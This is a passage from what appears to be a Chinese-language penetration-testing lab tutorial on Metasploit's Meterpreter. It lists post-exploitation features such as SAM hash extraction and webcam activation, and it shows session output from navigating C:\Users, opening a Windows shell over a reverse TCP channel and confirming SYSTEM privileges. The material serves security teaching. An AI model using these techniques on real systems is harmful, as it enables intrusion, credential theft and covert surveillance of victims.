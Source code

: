 很漂亮。从从 SAM 中提取用户哈希值到截取屏幕截图和激活网络摄像头。所有这些都是通过 Linux 风格的命令行轻松完成的。进一步探索，我们还看到了打开 shell 通道的选项。这将使我们进入实际的 Windows 命令行界面。

#### MSF - Meterpreter 导航

```shell-session
meterpreter > cd Users
meterpreter > ls

Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   2017-07-21 06:56:23 +0000  Administrator
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  All Users
40555/r-xr-xr-x   8192  dir   2009-07-14 03:20:08 +0000  Default
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  Default User
40555/r-xr-xr-x   4096  dir   2009-07-14 03:20:08 +0000  Public
100666/rw-rw-rw-  174   fil   2009-07-14 04:54:24 +0000  desktop.ini
40777/rwxrwxrwx   8192  dir   2017-07-14 13:45:33 +0000  haris


meterpreter > shell

Process 2664 created.
Channel 1 created.

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>
```

`Channel 1`已创建，我们将自动放入此机器的 CLI 中。这里的通道表示我们的设备和目标主机之间的连接，它已经使用 Meterpreter Stager 和 Stage 在反向 TCP 连接（从目标主机到我们）中建立。stager 在我们的机器上被激活，以等待由目标机器上的 Stage 有效负载初始化的连接请求。

在某些情况下，进入目标的标准 shell 是有帮助的，但 Meterpreter 也可以在受害机器上导航和执行操作。所以我们看到命令发生了变化，但我们在系统内具有相同的权限级别。

#### MSF-Windows CMD

```shell-session
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>dir

dir
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Users

21/07/2017  07:56    <DIR>          .
21/07/2017  07:56    <DIR>          ..
21/07/2017  07:56    <DIR>          Administrator
14/07/2017  14:45    <DIR>          haris
12/04/2011  08:51    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  15,738,978,304 bytes free

C:\Users>whoami

whoami
nt authority\system
```
